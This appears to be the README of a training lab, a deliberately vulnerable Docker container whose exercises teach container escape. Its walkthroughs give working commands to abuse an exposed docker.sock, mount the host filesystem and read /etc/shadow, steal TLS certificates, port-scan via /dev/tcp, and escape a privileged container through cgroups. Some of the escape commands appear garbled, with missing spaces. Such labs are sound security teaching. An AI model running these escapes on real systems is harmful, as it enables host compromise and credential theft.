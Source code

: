 # Damn Vulnerable Docker Container

## Getting Started

```
$ docker build --tag dvdc:1.0 .
$ docker run -d --network host -v /var/run/docker.sock:/var/run/docker.sock --name dvdc dvdc:1.0
```

## Exercises

### Docker Sockets

#### Exercise 1: Querying the API

In this exercise, the host's docker.sock will be exposed to the container. To get started, drop into a local shell:
```
docker exec -it dvdc /bin/bash
```

With the exposed socket you can make API calls to query running containers, start new containers, and even break out to the host. In this exercises, try to find out what version of Docker is running using the API.

<details>
    <summary>Walkthrough</summary>
    
    # Check if the docker socket is mounted
    user@66a0d5faa124:/# file /var/run/docker.sock
    /var/run/docker.sock: socket

    # Check if it's writable
    user@66a0d5faa124:~$ ls -l /var/run/docker.sock
    srw-rw---- 1 root users 0 Jul  6 03:24 /var/run/docker.sock
    user@66a0d5faa124:~$ groups
    user users giddy

    # Query the API
    user@66a0d5faa124:/# curl --unix-socket /var/run/docker.sock http://localhost/version
    {"Platform":{"Name":"Docker Engine - Community"},"Components":[{"Name":"Engine","Version":"18.09.6","Details":{"ApiVersion":"1.39","Arch":"amd64","BuildTime":"2019-05-04T02:41:08.000000000+00:00","Experimental":"false","GitCommit":"481bc77","GoVersion":"go1.10.8","KernelVersion":"4.14.116-boot2docker","MinAPIVersion":"1.12","Os":"linux"}}],"Version":"18.09.6","ApiVersion":"1.39","MinAPIVersion":"1.12","GitCommit":"481bc77","GoVersion":"go1.10.8","Os":"linux","Arch":"amd64","KernelVersion":"4.14.116-boot2docker","BuildTime":"2019-05-04T02:41:08.000000000+00:00"}
</details>

<details>
    <summary>GIDding around</summary>

    # Sometimes the GID the group that can write to /var/run/docker.sock inside the container might show up as a number, i.e:
    # srw-rw---- 1 root 967 0 Jul  6 03:24 /var/run/docker.sock
    # This is because the GID of the docker group on the host doesn't exist in the container.
    # The container user is a member of the "giddy" group which can be used with "groupadd", which has been given suid permissions, to grant the user write permissions on /var/run/docker.sock.
    # This can be done with the following command:
    groupadd -fg {writable-gid} giddy # where {writable-gid} is the gid in your "ls -l /var/run/docker.sock" output
</details>

#### Exercise 2: Command execution

Now that we know we can query the API via the mounted socket we can use the exposed functionality to execute commands as the container's root user. You can use the `/exec` endpoint to accomplish this.

<details>
    <summary>Walkthrough</summary>

    # Send and execute a command
    user@66a0d5faa124:~$ curl -insecure -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock http://localhost/containers/dvdc/exec -d '{"AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "touch /tmp/success"]}'
    HTTP/1.1 201 Created
    Api-Version: 1.39
    Content-Type: application/json
    Docker-Experimental: false
    Ostype: linux
    Server: Docker/18.09.6 (linux)
    Date: Mon, 06 Jul 2020 06:49:14 GMT
    Content-Length: 74

    {"Id":"dd8dd0cd94b8a3821eaa2b236f1a1c74a60e3c0f17857647f3d1cefc44b40c67"}
    user@66a0d5faa124:~$ curl -insecure -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock http://localhost/exec/dd8dd0cd94b8a3821eaa2b236f1a1c74a60e3c0f17857647f3d1cefc44b40c67/start -d '{}'
    HTTP/1.1 200 OK
    Content-Type: application/vnd.docker.raw-stream
    Api-Version: 1.39
    Docker-Experimental: false
    Ostype: linux
    Server: Docker/18.09.6 (linux)

    user@66a0d5faa124:~$ ls -la /tmp
    total 8
    drwxrwxrwt 1 root root 4096 Jul  6 06:50 .
    drwxr-xr-x 1 root root 4096 Jul  6 06:45 ..
    -rw-r--r-- 1 user user    0 Jul  6 06:50 success
</details>


#### Exercise 3: Reading the host filesystem

Code execution is great, but the API can be abused to create new containers and read the host filesystem. You can use the `/containers/create` endpoint to do this.
<details>
    <summary>Walkthrough</summary>

    # Deploy a new container called "escape", mount the host's filesystem to `/host` and then run `cat /host/etc/shadow`
    curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d'{"Image":"ubuntu:latest","Cmd":["cat", "/host/etc/shadow"],"Mounts":[{"Type":"bind","Source":"/","Target":"/host"}]}' "http://localhost/containers/create?name=escape"

    # Start the container
    curl -XPOST --unix-socket /var/run/docker.sock "http://localhost/containers/escape/start"

    # Read the output of the command
    curl --output - --unix-socket /var/run/docker.sock "http://localhost/containers/escape/logs?stdout=true"

    # Clean up
    curl -XDELETE --unix-socket /var/run/docker.sock "http://localhost/containers/escape"
</details>

#### Exercise 4: Communicating with the Docker Daemon with static docker binaries

Now that you can read the host filesystem you can search for sensitive files. In secure docker environments, the dockerd service uses TLS and requires a client to verify itself with a private key. In this exercise, try to use a docker static binary (found [here](https://download.docker.com/linux/static/stable/)) to connect to the host daemon. If TLS is enforced, use the technique in exercise 3 to read the docker certificates and connect to the host daemon.

<details>
    <summary>Walkthrough</summary>

    # Find the IP address of the host
    user@default:~# ip a
    ... snip ...
    3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
        link/ether 08:00:27:02:66:09 brd ff:ff:ff:ff:ff:ff
        inet 192.168.99.102/24 brd 192.168.99.255 scope global eth1
           valid_lft forever preferred_lft forever
        inet6 fe80::a00:27ff:fe02:6609/64 scope link
           valid_lft forever preferred_lft forever
    ... snip ...
    
    # Find open ports
    user@default:~# for port in {1..65535}; do timeout 1 bash -c "echo > /dev/tcp/192.168.99.102/$port" >& /dev/null && echo "port $port is open"; done
    port 22 is open
    port 2376 is open
    port 32888 is open
    
    # Download docker static binaries
    user@default:~# wget https://download.docker.com/linux/static/stable/x86_64/docker-19.03.0.tgz
    Resolving download.docker.com (download.docker.com)... 13.224.180.114, 13.224.180.65, 13.224.180.2, ...
    Connecting to download.docker.com (download.docker.com)|13.224.180.114|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 63255038 (60M) [application/x-tar]
    Saving to: 'docker-19.03.0.tgz'
    
    docker-19.03.0.tgz                       100%[================================================================================>]  60.32M  5.22MB/s    in 11s
    
    2020-07-06 23:16:21 (5.49 MB/s) - 'docker-19.03.0.tgz' saved [63255038/63255038]
    
    # Try to connect to the host
    user@default:~# ./docker/docker -H 192.168.99.102:2376 version
    Client: Docker Engine - Community
     Version:           19.03.0
     API version:       1.40
     Go version:        go1.12.5
     Git commit:        aeac9490dc
     Built:             Wed Jul 17 18:11:50 2019
     OS/Arch:           linux/amd64
     Experimental:      false
    Get http://192.168.99.102:2376/v1.40/version: net/http: HTTP/1.x transport connection broken: malformed HTTP response "\x15\x03\x01\x00\x02\x02".
    * Are you trying to connect to a TLS-enabled daemon without TLS?
    
    # Try again with tls enabled
    user@default:~# ./docker/docker -H 192.168.99.102:2376 --tls version
    Client: Docker Engine - Community
     Version:           19.03.0
     API version:       1.40
     Go version:        go1.12.5
     Git commit:        aeac9490dc
     Built:             Wed Jul 17 18:11:50 2019
     OS/Arch:           linux/amd64
     Experimental:      false
    The server probably has client authentication (--tlsverify) enabled. Please check your TLS client certification settings: Get https://192.168.99.102:2376/v1.40/version: remote error: tls: bad certificate
    
    # Using the technique shown in the previous exercise, find and read the docker certificates.
    # If you installed docker and docker-machine with brew on macos they might be located under `~/.docker/machine/certs/`
    user@default:~# ./docker/docker -H 192.168.99.102:2376 --tls --tlscert=./ca.pem --tlskey=./ca-key.pem version
    Client: Docker Engine - Community
     Version:           19.03.0
     API version:       1.39 (downgraded from 1.40)
     Go version:        go1.12.5
     Git commit:        aeac9490dc
     Built:             Wed Jul 17 18:11:50 2019
     OS/Arch:           linux/amd64
     Experimental:      false
    
    Server: Docker Engine - Community
     Engine:
      Version:          18.09.6
      API version:      1.39 (minimum version 1.12)
      Go version:       go1.10.8
      Git commit:       481bc77
      Built:            Sat May  4 02:41:08 2019
      OS/Arch:          linux/amd64
      Experimental:     false
</details>

#### Exercise 5: Breaking out

Being able to use the docker binary within the container allows you to more easily enumerate the environment, read the build history of containers deploy, new containers, and fully break out of the compromised container. In this exercise, use what you heave learned to deploy a new, privileged container which mounts the host file system by using the exposed docker daemon. Once deployed, drop into a shell with `docker exec` to interact with the filesystem.

### Privileged Mode

Docker has a special privileged mode which, if enabled with the `--privileged` flag, allows a container to access all host devices and kernel capabilities. This feature can be abused on linux hosts via `cgroups`.

The following is a quick and dirty way of getting out of a privileged k8 pod or docker container by using the cgroups release agent feature ([source](https://twitter.com/_fel1x/status/1151487051986087936))
```
(host) docker run -it --rm --privileged ubuntu:latest bash
(cont)# d=`dirname$(ls -x /s*/fs/c*/*/r* |head -n1)`
(cont)# mkdir -p $d/w
(cont)# echo 1 >$d/w/notify_on_release
(cont)# t=`sed -n's/.*\perdir=\([^,]*\).*/\1/p'/etc/mtab`
(cont)# touch /o
(cont)# echo$t/c >$d/release_agent
(cont)# printf'#!/bin/sh\nps >'"$t/o" >/c
(cont)# chmod +x /c
(cont)# sh -c "echo 0 >$d/w/cgroup.procs"
(cont)# sleep 1
(cont)# cat /o
```

## Resources:
- [Abusing Docker API sockets](https://securityboulevard.com/2019/02/abusing-docker-api-socket/)
- [A Methodology for Penetration Testing Docker Systems](https://www.cs.ru.nl/bachelors-theses/2020/Joren_Vrancken___4593847___A_Methodology_for_Penetration_Testing_Docker_Systems.pdf)
- [Break out the Box](https://github.com/brompwnie/botb)
